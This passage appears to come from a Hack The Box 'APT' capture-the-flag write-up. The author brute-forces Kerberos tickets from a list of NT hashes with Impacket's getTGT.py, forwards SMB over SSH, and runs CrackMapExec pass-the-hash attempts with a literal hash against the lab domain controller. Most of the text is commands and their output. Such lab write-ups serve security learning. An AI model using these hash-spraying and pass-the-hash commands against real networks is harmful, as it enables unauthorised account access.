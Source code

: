 ┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ for x in $\(cat nt\_hashes\);do getTGT.py -hashes $x -dc-ip apt.htb.local htb/henry.vinson 2&gt;/dev/null;done  
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Kerberos SessionError: KDC\_ERR\_PREAUTH\_FAILED\(Pre-authentication information was invalid\) Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

```text
This time I was able to enumerate the users (or at least was able to connect and get the PREAUTH_FAILED error).
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ for x in $\(cat nt\_hashes\);do getTGT.py -hashes $x -dc-ip apt.htb.local htb/henry.vinson \| grep -v Impacket \| grep -v "KDC\_ERR\_PREAUTH\_FAILED" \| tee -a valid\_hash && echo $x &gt;&gt; valid\_hash;done

Kerberos SessionError: KRB\_AP\_ERR\_SKEW\(Clock skew too great\)

```text
I used a bit of bash hackery to remove the results that showed failed attempts and let it run.  (I assumed it would take a long time so I let it go and got dinner)


** this is the way **
*  https://github.com/byt3bl33d3r/CrackMapExec/issues/339
```

┌──\(zweilos㉿kali\)-\[/etc/ssh\] └─$ sudo ssh zweilos@127.0.0.1 -L 445:apt.htb.local:445

```text
I had to enable ssh on my machine, then do port forwarding.
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ crackmapexec smb -d htb henry.vinson localhost  
SMB ::1 445 APT \[\*\] Windows Server 2016 Standard 14393 \(name:APT\) \(domain:htb\) \(signing:True\) \(SMBv1:True\)

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ crackmapexec smb -d htb henry.vinson -H aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb localhost

```text
** this is the way**

but other than getting the windows version information, I could not get this to connect afterwards
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ crackmapexec --verbose smb -d htb henry.vinson localhost DEBUG Passed args: {'aesKey': None, 'amsi\_bypass': None, 'clear\_obfscripts': False, 'content': False, 'continue\_on\_success': False, 'cred\_id': \[\], 'darrell': False, 'depth': None, 'disks': False, 'domain': 'htb', 'exclude\_dirs': '', 'exec\_method': None, 'execute': None, 'fail\_limit': None, 'force\_ps32': False, 'gen\_relay\_list': None, 'get\_file': None, 'gfail\_limit': None, 'groups': None, 'hash': \[\], 'jitter': None, 'kdcHost': None, 'kerberos': False, 'list\_modules': False, 'local\_auth': False, 'local\_groups': None, 'loggedon\_users': False, 'lsa': False, 'module': None, 'module\_options': \[\], 'no\_bruteforce': False, 'no\_output': False, 'ntds': None, 'obfs': False, 'only\_files': False, 'pass\_pol': False, 'password': \[\], 'pattern': None, 'port': 445, 'protocol': 'smb', 'ps\_execute': None, 'put\_file': None, 'regex': None, 'rid\_brute': None, 'sam': False, 'server': 'https', 'server\_host': '0.0.0.0', 'server\_port': None, 'sessions': False, 'share': 'C$', 'shares': False, 'show\_module\_options': False, 'smb\_server\_port': 445, 'spider': None, 'spider\_folder': '.', 'target': \['henry.vinson', 'localhost'\], 'threads': 100, 'timeout': None, 'ufail\_limit': None, 'username': \[\], 'users': None, 'verbose': True, 'wmi': None, 'wmi\_namespace': 'root\cimv2'} DEBUG Using selector: EpollSelector DEBUG Running DEBUG Started thread poller DEBUG Error resolving hostname henry.vinson: \[Errno -2\] Name or service not known DEBUG Error retrieving os arch of ::1: Could not connect: \[Errno 111\] Connection refused SMB ::1 445 APT \[\*\] Windows Server 2016 Standard 14393 \(name:APT\) \(domain:htb\) \(signing:True\) \(SMBv1:True\) DEBUG Stopped thread poller
